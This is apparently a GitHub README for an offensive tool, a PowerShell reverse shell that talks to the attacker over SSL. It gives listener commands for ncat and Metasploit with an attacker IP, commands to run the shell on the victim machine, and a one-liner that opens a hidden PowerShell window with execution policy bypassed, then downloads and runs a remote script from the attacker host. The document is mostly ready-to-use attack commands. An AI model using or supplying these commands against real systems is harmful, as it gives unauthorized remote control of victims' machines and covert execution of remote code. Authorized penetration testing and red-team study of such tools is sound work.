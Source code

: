 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Most of the code from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PowerShell-reverse-shell](https://github.com/martinsohn/PowerShell-reverse-shell)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShell -Reverse -IPAddress 192.168.254.226 -Port 4646

```

OR

```powershell

PS > powershell.exe -windowstyle hidden -ExecutionPolicy Unrestricted -nop -Command "IEX (New-Object Net.WebClient).DownloadString('https://<IP>/GetShellSSL.ps1')"

```

#### Demonstration
https://user-images.githubusercontent.com/74554439/197293572-e702d0aa-7390-41e5-ac0e-35b2e13a93d8.mp4
